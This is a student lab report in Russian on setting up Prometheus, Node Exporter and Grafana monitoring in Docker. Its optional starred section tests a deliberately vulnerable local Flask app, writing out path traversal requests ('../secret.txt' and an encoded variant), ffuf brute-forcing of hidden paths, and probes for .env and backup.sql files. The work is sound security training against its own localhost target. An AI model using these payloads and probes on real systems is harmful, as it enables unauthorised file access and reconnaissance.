







University: [ITMO University](https://itmo.ru/ru/)  
Faculty: [FICT](https://fict.itmo.ru)  
Course: [Введение в веб технологии](https://itmo-ict-faculty.github.io/introduction-in-web-tech/)  
Year: 2026/2027  
Group: U4225  
Author: Kupriyanova Arina Vladimirovna  
Lab: Lab3  
Date of create: 17.09.2026  
Date of finished:  

# Лабораторная работа №3

## Мониторинг с Prometheus и Grafana

## Цель работы

Научиться настраивать локальную систему мониторинга с использованием Prometheus и Grafana, собирать системные метрики с помощью Node Exporter и визуализировать полученные данные.

Дополнительно в рамках лабораторной работы со звёздочкой выполнить безопасное тестирование веб-приложения на специально созданной локальной учебной среде.

## Используемые технологии

В ходе работы использовались:

- Docker;
- Prometheus;
- Node Exporter;
- Grafana;
- Flask;
- ffuf;
- PowerShell;
- Git.

## Ход работы

### 1. Создание конфигурации Prometheus

В каталоге `lab3` была создана директория:

```text
prometheus/
```

В ней был создан файл:

```text
prometheus/prometheus.yml
```

со следующей конфигурацией:

```yaml
global:
  scrape_interval: 15s

scrape_configs:
  - job_name: 'prometheus'
    static_configs:
      - targets: ['prometheus:9090']

  - job_name: 'node-exporter'
    static_configs:
      - targets: ['node-exporter:9100']
```

Для взаимодействия контейнеров была создана отдельная Docker-сеть:

```powershell
docker network create monitoring
```

### 2. Запуск Node Exporter

Для сбора системных метрик был запущен контейнер Node Exporter:

```powershell
docker run -d --name node-exporter --network monitoring --restart unless-stopped -p 9100:9100 prom/node-exporter:latest
```

Работа Node Exporter была проверена командой:

```powershell
curl.exe http://localhost:9100/metrics
```

В результате был получен набор системных метрик в формате Prometheus.

Пример результата работы Node Exporter:



### 3. Запуск Prometheus

Для хранения данных Prometheus был создан Docker volume:

```powershell
docker volume create prometheus-data
```

Контейнер Prometheus был запущен в сети `monitoring` с подключением файла конфигурации:

```powershell
docker run -d --name prometheus --network monitoring --restart unless-stopped -p 9090:9090 -v prometheus-data:/prometheus -v "${PWD}\lab3\prometheus:/etc/prometheus" prom/prometheus:latest --config.file=/etc/prometheus/prometheus.yml --storage.tsdb.path=/prometheus --web.enable-lifecycle
```

Веб-интерфейс Prometheus доступен по адресу:

```text
http://localhost:9090
```

В разделе `Status → Target health` была выполнена проверка состояния целей мониторинга.

Обе цели успешно доступны:

```text
node-exporter    UP
prometheus       UP
```



### 4. Запуск Grafana

Для хранения данных Grafana был создан Docker volume:

```powershell
docker volume create grafana-data
```

Контейнер Grafana был запущен в общей сети мониторинга:

```powershell
docker run -d --name grafana --network monitoring --restart unless-stopped -p 3000:3000 -v grafana-data:/var/lib/grafana -e "GF_SECURITY_ADMIN_PASSWORD=admin" grafana/grafana:latest
```

Grafana доступна по адресу:

```text
http://localhost:3000
```

Для входа использовались учётные данные:

```text
Login: admin
Password: admin
```

### 5. Подключение Prometheus к Grafana

В Grafana был добавлен новый источник данных типа `Prometheus`.

В качестве адреса сервера указан:

```text
http://prometheus:9090
```

После выполнения `Save & test` Grafana успешно подключилась к Prometheus.



### 6. Создание дашборда мониторинга

В Grafana был создан дашборд:

```text
System Monitoring
```

На него были добавлены три панели.

Для мониторинга CPU использована метрика:

```text
node_cpu_seconds_total
```

Для мониторинга доступной оперативной памяти:

```text
node_memory_MemAvailable_bytes
```

Для мониторинга доступного дискового пространства:

```text
node_filesystem_avail_bytes
```

В результате был создан дашборд с тремя графиками:

```text
CPU metrics
Memory available
Disk available
```



## Лабораторная работа со звёздочкой

### 7. Подготовка локальной учебной цели

Для безопасного тестирования веб-уязвимостей было создано локальное Flask-приложение в каталоге:

```text
lab3/security-target
```

Приложение запускалось в Docker-контейнере и было доступно по адресу:

```text
http://localhost:8081
```

В приложении специально были реализованы учебные маршруты:

```text
/admin
/backup
/config
/health
/download
```

Также была намеренно добавлена небезопасная обработка параметра `file`, чтобы можно было продемонстрировать Path Traversal исключительно на локальной тестовой среде.

### 8. Проверка Path Traversal

Обычный доступ к файлу выполнялся запросом:

```powershell
curl.exe "http://localhost:8081/download?file=public.txt"
```

Результат:

```text
This is a public training file.
```

После этого была выполнена попытка выхода за пределы разрешённого каталога:

```powershell
curl.exe "http://localhost:8081/download?file=../secret.txt"
```

В результате был получен содержимый тестового файла:

```text
LAB3_SECRET=training-only-secret
```

Также был проверен URL-кодированный вариант:

```powershell
curl.exe "http://localhost:8081/download?file=..%2Fsecret.txt"
```

Результат оказался аналогичным.

Это подтверждает наличие учебной уязвимости Path Traversal.



### 9. Перебор скрытых путей с помощью ffuf

Для поиска скрытых директорий был подготовлен локальный wordlist.

Проверка выполнялась командой:

```powershell
ffuf -w .\lab3\security-target\wordlist.txt -u http://localhost:8081/FUZZ -mc 200,301,302,403
```

В результате были найдены следующие доступные пути:

```text
/admin
/backup
/config
/health
```

Все найденные страницы возвращали HTTP-статус `200`.



### 10. Анализ HTTP-заголовков

Для анализа HTTP-заголовков была выполнена команда:

```powershell
curl.exe -I http://localhost:8081/
```

В ответе были обнаружены следующие данные:

```text
HTTP/1.1 200 OK
Server: Werkzeug/3.1.8 Python/3.12.14
Content-Type: text/html; charset=utf-8
```

Таким образом, сервер раскрывает информацию об используемом ПО и версии Python.

### 11. Проверка дополнительных путей и файлов

Были проверены найденные маршруты:

```powershell
curl.exe http://localhost:8081/admin
curl.exe http://localhost:8081/backup
curl.exe http://localhost:8081/config
```

Ответы подтвердили доступность соответствующих страниц.

Дополнительно были проверены потенциально чувствительные файлы:

```powershell
curl.exe -i http://localhost:8081/.env
curl.exe -i http://localhost:8081/backup.sql
```

Оба запроса вернули:

```text
HTTP/1.1 404 NOT FOUND
```

Это означает, что такие файлы в учебном приложении отсутствуют.



## Результаты работы

В ходе лабораторной работы были выполнены следующие задачи:

- создана Docker-сеть для мониторинга;
- настроен Node Exporter;
- запущен и настроен Prometheus;
- проверено состояние targets;
- запущена Grafana;
- Prometheus подключён как источник данных;
- создан дашборд с метриками CPU, памяти и диска;
- создана безопасная локальная учебная веб-цель;
- продемонстрирована уязвимость Path Traversal;
- выполнен поиск скрытых путей с помощью ffuf;
- проанализированы HTTP-заголовки;
- проверено наличие дополнительных файлов и директорий.

## Вывод

В ходе лабораторной работы была настроена локальная система мониторинга на базе Prometheus, Node Exporter и Grafana.

Prometheus успешно собирает системные метрики, а Grafana используется для их визуализации в виде дашборда с показателями CPU, оперативной памяти и дискового пространства.

В дополнительной части работы было проведено безопасное тестирование специально созданного локального веб-приложения. Были продемонстрированы Path Traversal, поиск скрытых директорий с помощью ffuf и анализ HTTP-заголовков.

Все проверки проводились только в локальной учебной среде, без воздействия на сторонние веб-сайты и сервисы.